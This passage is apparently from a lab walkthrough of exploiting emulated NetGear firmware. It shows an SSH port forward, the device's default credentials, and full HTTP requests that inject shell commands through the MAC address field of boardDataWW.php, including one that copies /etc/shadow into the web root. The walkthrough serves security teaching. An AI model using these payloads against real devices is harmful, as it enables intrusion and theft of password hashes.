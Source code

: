 ```bash
uid=0(root) gid=0(root)
netgear123456

```

Take note to the IP that is outputted (usually is 192.168.0.100) and press enter to continue the emulation.  

Once the emulation is done, create a port forward on your machine (the attacker machine) using SSH as follows:

```bash
fesal@kali:~# ssh -N iot@10.10.150.11 -L 8081:192.168.0.100:80
iot@10.10.150.11's password:
```

Now, if you access [http://localhost:8081](http://localhost:8081) you should be able to access the web application login page (it's a NetGear AP).

The default credentials are **admin:password**.

Once logged in, change the url to [http://localhost:8081/boardDataWW.php](http://localhost:8081/boardDataWW.php). In the MAC Address field add some junk data, for example I added 998877665544, submit it, intercept it using BurpSuite and forward it to the Repeater.

For the PoC I pinged the localhost:
```bash
POST /boardDataWW.php HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost:8081/boardDataWW.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 73
DNT: 1
Connection: close
Cookie: PHPSESSID=7162c54a62699b5dfb327461fe8f9710
Upgrade-Insecure-Requests: 1

macAddress=998877665544;ping+-c+10+127.0.0.1+#&reginfo=0&writeData=Submit
```

You'll notice a delay, which means the application is vulnerable to Command Execution. Let's copy the shadow file:
```bash
POST /boardDataWW.php HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost:8081/boardDataWW.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 69
DNT: 1
Connection: close
Cookie: PHPSESSID=7162c54a62699b5dfb327461fe8f9710
Upgrade-Insecure-Requests: 1

macAddress=998877665544;cp+/etc/shadow+.+#&reginfo=0&writeData=Submit
```
Let's request the shadow file:
